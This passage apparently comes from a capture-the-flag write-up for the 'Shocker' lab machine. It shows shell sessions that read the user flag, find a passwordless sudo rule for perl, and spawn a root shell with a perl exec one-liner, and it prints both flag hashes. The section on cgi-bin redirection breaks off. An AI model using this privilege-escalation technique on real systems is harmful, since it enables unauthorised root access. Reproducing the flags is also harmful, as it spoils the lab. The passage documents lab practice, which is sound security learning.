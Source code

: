 ```
shelly@Shocker:/usr/lib/cgi-bin$ cd ~
cd ~
shelly@Shocker:/home/shelly$ ls
ls
user.txt
shelly@Shocker:/home/shelly$ cat user.txt
cat user.txt
9f44bf6868b9724be5684bfe0f38b47e
shelly@Shocker:/home/shelly$ 
```

## Privilege Escalation

Let's check if use "shelley" can run any commands as root:

```
shelly@Shocker:/home/shelly$ sudo -l
sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
shelly@Shocker:/home/shelly$
```

Checking GTFObins, we find an entry for perl. Let's use it to escalate our privileges and grab the root flag:

```
shelly@Shocker:/home/shelly$ sudo perl -e 'exec "/bin/sh";'
sudo perl -e 'exec "/bin/sh";'
id
uid=0(root) gid=0(root) groups=0(root)
cd /root
cat root.txt
d911dbb0e362fa75428fc5ca9acb75a9
exit

```

## Resources

### Trailing Slash and Automatic Redirection

After rooting the box, I decided to find out why the route at /cgi-bin, which returns a code 404 not found, was not being redirected automatically to /cgi-bin/, which returned a 403 forbidden response.

When I gained access to the box, I was dropped into the /var/lib/cgi-bin directory, which contains the user.sh script:
